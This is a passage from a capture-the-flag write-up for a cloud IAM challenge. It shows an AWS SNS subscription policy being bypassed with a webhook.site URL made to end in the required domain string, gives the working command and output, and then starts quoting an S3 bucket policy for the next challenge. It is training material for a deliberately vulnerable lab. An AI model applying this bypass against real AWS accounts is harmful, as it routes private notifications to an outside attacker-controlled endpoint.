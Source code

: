 ```bash
```

## Solution

According to the policy, anyone can sign up for TBICWizPushNotifications alerts, but there is a requirement that the endpoint ends in @tbic.wiz.io.
Since we don't have any emails that finish in that domain, we can utilize webhooks to subscribe to it using a different protocol, such as HTTPS.  The URL is 
https://webhook.site

``` aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-endpoint https://webhook.site/{your-assigend-id}/@tbic.wiz.io```

```bash
> aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https --notification-e
ndpoint https://webhook.site/5c092bc0-4639-410f-b110-1277b64f1592/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
>
```

Now check the webook website:

<img width="1368" alt="Screenshot 2025-04-10 at 2 21 53 AM" src="https://github.com/user-attachments/assets/208f10e5-6702-4af9-bc61-b567c05a0ecb" />

On the webhook dashboard, you will find a POST notification indicating Subscription confirmation. To validate the subscription for notifications, please go to the URL provided in the SubscribeURL within the confirmation message. Once you confirm, you will receive the flag as part of the message.


<img width="1395" alt="Screenshot 2025-04-10 at 2 18 06 AM" src="https://github.com/user-attachments/assets/64944856-c872-4ab6-93e5-d38800486699" />

---

---

## [Challenge 4 - Admin only?](https://bigiamchallenge.com/challenge/4)

 ### We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

IAM POLICY

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
```